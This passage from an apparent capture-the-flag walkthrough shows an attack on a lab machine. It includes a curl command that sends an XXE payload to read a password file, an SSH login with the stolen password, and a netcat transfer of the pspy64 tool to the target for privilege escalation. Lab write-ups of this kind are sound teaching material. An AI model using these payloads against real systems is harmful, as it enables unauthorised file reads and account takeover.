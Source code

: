 ```bash
\'0  1  3  /usr/local/etc/mypass.txt
|4,48,1,3,1648909714,"/usr/local/etc/mypass.txt"

# History of marks within files (newest to oldest):

> /usr/local/etc/mypass.txt
<SNIP>
 is already registered! </font> </p> 
```

We can see from the vim history file that the user created a file named mypass.txt in the /usr/local/etc/ directory. This is surely the user's password, so let's read this file.
```bash
┌──(pentester㉿kali)-[~/System/Scans/Web]
└─$curl  http://10.0.2.14/magic.php -X POST -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [<!ENTITY test1 SYSTEM "file:///usr/local/etc/mypass.txt">]><details><email>&test1;</email><password>test1</password></details>'
<p align='center'> <font color=white size='5pt'> <REDACTED> is already registered! </font> </p>   
```

The file indeed contained what looks like the password. Let's use this password to connect as the user David and read the flag.
```bash
┌──(pentester㉿kali)-[~/System/Scans/Web]
└─$ssh david@10.0.2.14
The authenticity of host '10.0.2.14 (10.0.2.14)' can't be established.
<SNIP>
Warning: Permanently added '10.0.2.14' (ED25519) to the list of known hosts.
david@10.0.2.14's password: 
<SNIP>

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr  2 12:42:26 2022 from 192.168.1.5
david@system:~$ ls
user.txt
```

## Post Exploitation
Now that we have compromised a user's account we can use this foothold to enumerate the system and escalate privileges. Admins usually run cron jobs to automate tasks on a system, if these jobs are not well implemented they can be abused to escalate privileges. To check the existence of running cron jobs on our target machine, we will transfer pspy64 and run it on the target.
##### Start a listener on the target
```bash
david@system:/tmp$ nc -lvnp 9000 > pspy64
listening on [any] 9000 ...
```
##### Send pspy64 from our attack host to the target
```bash
┌──(pentester㉿kali)-[~/System/Misc Files]
└─$nc -q 0 10.0.2.14 9000 < /usr/share/pspy/pspy64
```
##### Run pspy64
```bash
david@system:/tmp$ nc -lvnp 9000 > pspy64
listening on [any] 9000 ...
connect to [10.0.2.14] from (UNKNOWN) [10.0.2.16] 57086
david@system:/tmp$ chmod 755 pspy64 
david@system:/tmp$ ./pspy64
```
